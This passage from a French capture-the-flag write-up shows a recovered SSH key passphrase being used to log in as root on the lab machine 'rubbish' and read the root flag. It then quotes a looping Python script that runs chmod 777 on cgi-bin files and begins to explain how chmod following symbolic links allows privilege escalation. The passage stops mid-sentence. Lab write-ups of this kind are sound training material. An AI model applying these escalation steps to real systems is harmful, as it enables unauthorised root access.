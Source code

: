 ```plain
sshkeypass
sshkeypass
/opt/ssh_backup.rb
/opt/ssh_backup.rb
/opt/ssh_backup.rb
/opt/ssh_backup.rb
/opt/ssh_backup.rb
/opt/ssh_backup.rb
```

On utilise ce mot de passe conjointement à la clé ssh dans */opt* :  

```plain
autumn@rubbish:/opt$ ssh -i ssh_key root@127.0.0.1
Enter passphrase for key 'ssh_key':
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-43-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

192 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jan  3 21:13:09 2019 from 10.28.12.6
root@rubbish:~# cat root.txt
69b8d33ea51240bd44835acd6ffdbd3a
```

Shortish but not so stylish
---------------------------

L'autre process vu tout à l'heure (*/var/tmp/test.py*) a son code lisible :  

```python
#!/usr/bin/python3
import os
import time

while True:
    os.system("cd /var/www/nginx ; mv *.py *.pl *.rb *.cgi cgi-bin/")
    os.system("chmod 777 /var/www/nginx/cgi-bin/* ")
    time.sleep(30)
```

Cela ne m'a pas sauté aux yeux car j'ai fait la mauvaise supposition que *chmod* ne suivait pas les liens symboliques. Pourtant si on regarde la page de manuel :  
